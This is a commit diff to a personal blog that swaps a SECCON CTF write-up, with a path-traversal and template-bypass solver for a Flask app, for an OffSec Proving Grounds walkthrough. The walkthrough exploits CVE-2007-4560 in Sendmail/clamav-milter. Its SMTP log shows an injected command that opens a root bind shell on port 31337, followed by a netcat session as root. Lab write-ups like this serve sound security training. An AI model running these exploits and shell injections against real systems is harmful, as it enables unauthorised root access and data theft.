

Before and after one commit to Spy0x7/Spy0x7.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
Update 2024-10-27-Clamav-Writeup.md

````diff
--- a/_posts/2024-10-27-Clamav-Writeup.md
+++ b/_posts/2024-10-27-Clamav-Writeup.md
@@ -1,281 +1,161 @@
 ---
-title: Easylfix
+title: Offensive-Security–Proving-Grounds–ClamAV-Write-up
 published: true
 ayout: post
-date: 2022-10-15 18:54 +0600
-tags: [CTF]
-featured: false
+date: 2024-10-27 18:54 +0600
+categories: [OSCP]
+tags: [ctf,OSCP]
 ---
 
-I solved some web challenges with my idol ginoah. The challenges are awesome!
+# Machine Type: Linux
 
-Description:
-
-Can you read my secret?
-
-The goal is to LFI /flag.txt
-
-This flask app use curl to get a local file
-
-This is server-side challenge.
-
-You access the server:
-
-![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-01.png)
+## Attack Walkthrough
 
 
-If you submit `test`, the server redirects to `/hello.html?%7Bname%7D=test:`
+### Step 1: Service Enumeration with Nmap
 
+```
+Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 07:21 EDT
+Warning: 192.168.248.42 giving up on port because retransmission cap hit (10).
+Nmap scan report for 192.168.248.42
+Host is up (0.10s latency).
+Not shown: 65347 closed tcp ports (conn-refused), 181 filtered tcp ports (no-response)
+PORT      STATE SERVICE     VERSION
+22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
+| ssh-hostkey:
+|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
+|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
+25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
+| smtp-commands: localhost.localdomain Hello [192.168.45.192], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
+|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to Postmaster at your site. 2.0.0 End of HELP info
+80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
+|_http-title: Ph33r
+|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
+| http-methods:
+|_  Potentially risky methods: TRACE
+139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
+199/tcp   open  smux        Linux SNMP multiplexer
+445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
+60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
+| ssh-hostkey:
+|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
+|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
+Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
 
-![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-02.png)
+Host script results:
+| smb-security-mode:
+|   account_used: guest
+|   authentication_level: share (dangerous)
+|   challenge_response: supported
+|_  message_signing: disabled (dangerous, but default)
+|_smb2-time: Protocol negotiation failed (SMB2)
+|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
+| smb-os-discovery:
+|   OS: Unix (Samba 3.0.14a-Debian)
+|   NetBIOS computer name:
+|   Workgroup: WORKGROUP\x00
+|_  System time: 2024-10-27T11:22:30-04:00
+|_clock-skew: mean: 5h59m59s, deviation: 2h49m43s, median: 3h59m58s
 
-
-Source code `(web/app.py` ):
-
-
-```python
-from flask import Flask, request, Response
-import subprocess
-import os
-
-app = Flask(__name__)
-
-
-def validate(key: str) -> bool:
-    # E.g. key == "{name}" -> True
-    #      key == "name"   -> False
-    if len(key) == 0:
-        return False
-    is_valid = True
-    for i, c in enumerate(key):
-        if i == 0:
-            is_valid &= c == "{"
-        elif i == len(key) - 1:
-            is_valid &= c == "}"
-        else:
-            is_valid &= c != "{" and c != "}"
-    return is_valid
-
-
-def template(text: str, params: dict[str, str]) -> str:
-    # A very simple template engine
-    for key, value in params.items():
-        if not validate(key):
-            return f"Invalid key: {key}"
-        text = text.replace(key, value)
-    return text
-
-
-@app.after_request
-def waf(response: Response):
-    if b"SECCON" in b"".join(response.response):
-        return Response("Try harder")
-    return response
-
-
-@app.route("/")
-@app.route("/<path:filename>")
-def index(filename: str = "index.html"):
-    if ".." in filename or "%" in filename:
-        return "Do not try path traversal :("
-
-    try:
-        proc = subprocess.run(
-            ["curl", f"file://{os.getcwd()}/public/{filename}"],
-            capture_output=True,
-            timeout=1,
-        )
-    except subprocess.TimeoutExpired:
-        return "Timeout"
-
-    if proc.returncode != 0:
-        return "Something wrong..."
-    return template(proc.stdout.decode(), request.args)
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 64.02 seconds
 
 ```
 
-The goal is stealing a flag from `/flag.txt`.
 
-## Solution
+**Run Nmap Scan**:
+Use Nmap to discover open services on the target. The following services are detected: - **SSH** - **HTTP** - **SMTP** - **SMB** ```
 
 
-### Step 1: path traversal
+**No Accessible SMB Shares**: After checking for accessible shares, none were found on the SMB service.
 
-The server uses curl to read files:
+### Step 2: Exploit Research for SMTP Service
+
+1. **Research SMTP Version for Exploits**: After identifying the SMTP server version, a quick search online revealed the following exploit:
+
+    - **Exploit**: Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
+    - **CVE**: CVE-2007-4560
+
+    This exploit affects the version running on the target and is capable of remote command execution.
+
+2. **Interesting Detail**: Notably, the machine's hostname is **clamav**, aligning with the exploit details. The exploit opens a new port (31337) on the target for a root shell (`/bin/sh`).
 
 
-```code
-proc = subprocess.run(
-    ["curl", f"file://{os.getcwd()}/public/{filename}"],
-    capture_output=True,
-    timeout=1,
-)
+### Step 3: Executing the Exploit
+
+1. **Run the Exploit**: Execute the exploit to open port 31337, providing access to a root shell on the target.
+
+
+```
+perl 4761.pl $target                                                                                                                                                                   ✔  1072  07:29:00
+Sendmail w/ clamav-milter Remote Root Exploit
+Copyright (C) 2007 Eliteboy
+Attacking 192.168.248.42...
+220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sun, 27 Oct 2024 19:38:00 -0400; (No UCE/UBE) logging access from: [192.168.251.248](FAIL)-[192.168.251.248]
+250-localhost.localdomain Hello [192.168.251.248], pleased to meet you
+250-ENHANCEDSTATUSCODES
+250-PIPELINING
+250-EXPN
+250-VERB
+250-8BITMIME
+250-SIZE
+250-DSN
+250-ETRN
+250-DELIVERBY
+250 HELP
+250 2.1.0 <>... Sender ok
+250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
+250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
+354 Enter mail, end with "." on a line by itself
+250 2.0.0 49RNc0PA004595 Message accepted for delivery
+221 2.0.0 localhost.localdomain closing connection
 ```
 
 
-
-Unfortunately, path traversal to `/flag.txt` is prevented:
-
-```code
-if ".." in filename or "%" in filename:
-    return "Do not try path traversal :("
-```
-
-By the way, curl has a feature of  [URL globbing](https://everything.curl.dev/cmdline/globbing), and you can access multiple resources at the same time.
-You can bypass the above defense using this feature:
+**Connect to Root Shell**: Once confirmed, connect to port 31337 to access the root shell.
 
 ```
-$ http "http://localhost:3000/.{.}/.{.}/flag.txt"
-HTTP/1.1 200 OK
-Connection: close
-Content-Length: 10
-Content-Type: text/html; charset=utf-8
-Date: Sat, 05 Nov 2022 12:09:18 GMT
-Server: Werkzeug/2.2.2 Python/3.10.8
-
-Try harder
+c -nv  $target 31337                                                                                                                                                    1 ↵  1080  15:33:58
+(UNKNOWN) [192.168.248.42] 31337 (?) open
+id
+uid=0(root) gid=0(root) groups=0(root)
+whoami
+root
+ls
+bin
+boot
+cdrom
+dev
+etc
+home
+initrd
+initrd.img
+initrd.img.old
+lib
+lost+found
+media
+mnt
+opt
+proc
+root
+sbin
+srv
+sys
+tmp
+usr
+var
+vmlinuz
+vmlinuz.old
+cd root
+ls
+dbootstrap_settings
+install-report.template
+proof.txt
+cat proof.txt
+xxxxxxxxxxxxxxxxxxxx
 
 ```
 
-However, the following WAF hides the flag response:
+### Conclusion
 
-```
-@app.after_request
-def waf(response: Response):
-    if b"SECCON" in b"".join(response.response):
-        return Response("Try harder")
-    return response
-
-```
-
-### Step 2: bypassing WAF
-
-The server returns a response after the following process:
-
-
-```return template(proc.stdout.decode(), request.args)```
-
-
-The implementation of the template engine is as follows:
-
-
-```code
-def validate(key: str) -> bool:
-    # E.g. key == "{name}" -> True
-    #      key == "name"   -> False
-    if len(key) == 0:
-        return False
-    is_valid = True
-    for i, c in enumerate(key):
-        if i == 0:
-            is_valid &= c == "{"
-        elif i == len(key) - 1:
-            is_valid &= c == "}"
-        else:
-            is_valid &= c != "{" and c != "}"
-    return is_valid
-
-
-def template(text: str, params: dict[str, str]) -> str:
-    # A very simple template engine
-    for key, value in params.items():
-        if not validate(key):
-            return f"Invalid key: {key}"
-        text = text.replace(key, value)
-    return text
-
-```
-
-Is it possible to show the flag string without `SECCON` by abusing this template engine?
-
-The first important point is that `validate("{")` is `True`. You can bypass it with this bug and URL globbing.
-
-Example payload:
-
-   - URL: ```file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}```
-   - params:
-
-   ```code
-   {
-    "{name}": "{",
-    "{": "}{",
-    "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": ""
-}
-
-```
-
-The process in the template engine is as follows.
-
-The initial state:
-
-```
-... snip ...
-<body>
-  <h1>Hello, {name}!</h1>
-</body>
-</html>
---_curl_--file:///app/public/../../flag.txt
-SECCON{real_flag}
-
-```
-
-```"{name}" → "{":```
-
-```
-... snip ...
-<body>
-  <h1>Hello, {!</h1>
-</body>
-</html>
---_curl_--file:///app/public/../../flag.txt
-SECCON{real_flag}
-
-```
-
-`"{" → "}{":`
-
-
-```
-... snip ...
-<body>
-  <h1>Hello, }{!</h1>
-</body>
-</html>
---_curl_--file:///app/public/../../flag.txt
-SECCON}{real_flag}
-
-```
-
-```"{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}" → "":```
-
-
-```
-... snip ...
-<body>
-  <h1>Hello, }{real_flag}
-
-```
-
-### Solver
-
-```python
-import os
-import httpx
-
-BASE_URL = f"http://easylfi.seccon.games:3000"
-
-res = httpx.get(
-    BASE_URL + "/{.}./{.}./{app/public/hello.html,flag.txt}",
-    params={
-        "{name}": "{",
-        "{": "}{",
-        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": "",
-    },
-)
-
-print("SECCON" + res.text.split("<h1>Hello, }")[1])
-
-```
-
-## Credit to
-* [cjiso1117](https://twitter.com/cjiso1117)
+By leveraging the CVE-2007-4560 exploit, a root shell was successfully established on the target system.
````
